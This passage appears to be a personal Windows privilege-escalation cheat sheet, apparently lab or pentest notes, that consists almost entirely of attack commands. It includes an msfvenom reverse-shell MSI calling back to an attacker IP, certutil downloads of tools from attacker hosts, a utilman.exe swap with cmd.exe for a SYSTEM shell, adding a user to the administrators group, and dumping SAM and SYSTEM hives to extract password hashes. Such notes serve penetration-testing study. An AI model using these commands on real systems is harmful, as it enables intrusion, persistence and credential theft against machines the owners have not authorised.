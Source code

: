 ```jsx
takeown /F <dir> /R
git log
git diff <commit hash>
```

### Service Hijacking

```jsx
Restart-Service -Name 'mysql'
shutdown /r /t 0
```


### AlwaysInstallElevated

```jsx
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=445 -f msi > notavirus.msi
msiexec /i notavirus.msi
```

### WinPEASx64.exe

```jsx
certutil -split -urlcache -f http://192.168.45.218/winPEASx64.exe \windows\temp\winpeas.exe
\windows\temp\winpeas.exe
```

### **SeRestorePrivilege**

```jsx
# Enable the privilege (Can skip if Enabled already)
wget https://raw.githubusercontent.com/gtworek/PSBits/master/Misc/EnableSeRestorePrivilege.ps1
certutil -urlcache -split -f http://192.168.45.211/EnableSeRestorePrivilege.ps1
./EnableSeRestorePrivilege.ps1

# Abuse with RDP - Change binary in system32
move C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
move C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
rdesktop 192.168.224.165
# press Win+U

# If shell drops we can add user to admin group with fast typing
net localgroup administrators enox /add
```

[Abusing Tokens | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#table)

### SeBackupPrivilege

```jsx
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
# download the files to Kali
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
